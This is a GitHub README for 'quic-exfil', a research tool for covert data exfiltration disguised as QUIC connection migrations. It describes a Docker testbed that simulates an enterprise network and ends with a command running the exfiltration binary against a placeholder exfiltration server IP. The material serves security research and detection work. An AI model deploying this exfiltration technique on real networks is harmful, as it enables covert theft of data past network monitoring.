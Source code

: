 # quic-exfil
Covert data exfiltration by mimicking QUIC server-side connection migrations.

![Rust build workflow](https://github.com/thomasgruebl/quic-exfil/blob/main/.github/workflows/rust.yml/badge.svg)
![Docker build workflow](https://github.com/thomasgruebl/quic-exfil/blob/main/.github/workflows/docker-image.yml/badge.svg)
![Crates.io](https://img.shields.io/crates/d/quic-exfil?style=plastic)
![Libraries.io dependency status for GitHub repo](https://img.shields.io/librariesio/github/thomasgruebl/quic-exfil?style=plastic)
![GitHub last commit](https://img.shields.io/github/last-commit/thomasgruebl/quic-exfil?style=plastic)
![GitHub](https://img.shields.io/github/license/thomasgruebl/quic-exfil?style=plastic)
<a style="text-decoration: none" href="https://github.com/thomasgruebl/quic-exfil/stargazers">
<img src="https://img.shields.io/github/stars/thomasgruebl/quic-exfil.svg?style=plastic" alt="Stars">
</a>
<a style="text-decoration: none" href="https://github.com/thomasgruebl/quic-exfil/fork">
<img src="https://img.shields.io/github/forks/thomasgruebl/quic-exfil.svg?style=plastic" alt="Forks">
</a>
<a style="text-decoration: none" href="https://github.com/thomasgruebl/quic-exfil/issues">
<img src="https://img.shields.io/github/issues/thomasgruebl/quic-exfil.svg?style=plastic" alt="Issues">
</a>



Add descr on how to install quiche on the base machine -> and start quiche server to listen for benign connection migrations 
./target/release/quiche-server --listen 192.168.100.63:4433 --root html --cert apps/src/bin/cert.crt --key apps/src/bin/cert.key --enable-active-migration


QUIC-exfiltration client-side Wireshark trace (without the required server-side acknowledgments)
* 2a05:d012:8ef:f66:12d3:23ac:6791:a11f is the exfiltration server IP
* Packet 54622 mimics the PATH_CHALLENGE packet

![Alt text](sample_pcap.png "pcap_sample")


## Dependencies

libpcap

Debian/Ubuntu:

```sh
sudo apt install libpcap-dev
```

macOS:

```sh
brew install libpcap
```




## Experimental Testbed

This section describes the experimental setup used to evaluate `quicexfil` in a Docker-based testbed. The testbed aims to simulate a small enterprise network with multiple desktop machines generating QUIC traffic, and controlled benign connection migrations using Cloudflare's `quiche` library.

Docker compose spins up 16 containers running the `quicexfil` binary. Each container is based on [`accetto/xubuntu-vnc-novnc-firefox`](https://hub.docker.com/r/accetto/xubuntu-vnc-novnc-firefox) for a lightweight desktop GUI with Firefox and noVNC support.

Launch the setup:

```sh
docker compose up --build
```

This will build the image and launch 16 instances of the quicexfil container.

You will see console output showing accessible noVNC URLs (e.g. https://172.19.0.8:6901) for each container. These can be opened in your host browser (preferably Firefox) to interact with each container’s desktop environment.

You can connect to each container using the noVNC lite clients, for example:

```sh
https://172.19.0.8:6901
```

Log in with the default password <i>headless</i> and open Firefox in each container to manually generate QUIC traffic (e.g., by visiting sites like Cloudflare or Google).

Running the benign QUIC Server on the Host VM:

The base virtual machine (host) runs the quiche server to listen for and accept QUIC connections (including active migrations):

```sh
./target/release/quiche-server \
  --listen 192.168.100.63:4433 \
  --root html \
  --cert apps/src/bin/cert.crt \
  --key apps/src/bin/cert.key \
  --enable-active-migration
```

Replace <i>192.168.100.63</i> with the IP address of your host machine.

Connect to each container using

```sh
docker exec -it <container_id> bash
```

and then start the benign quiche connection migration script (make sure to adjust the IP address of your quiche server within the [script](https://github.com/thomasgruebl/quic-exfil/blob/main/scripts/benign_conn_migr.sh)):

```sh
./benign_conn_migr.sh
```

In 4 of the 16 containers, the experimental quicexfil tool is manually run to test potential data exfiltration over QUIC:

```sh
./target/release/quic-exfiltration -d "192.0.2.100" -i "eth0"
```

Replace <i>192.0.2.100</i> with the IP address of your exfiltration server.
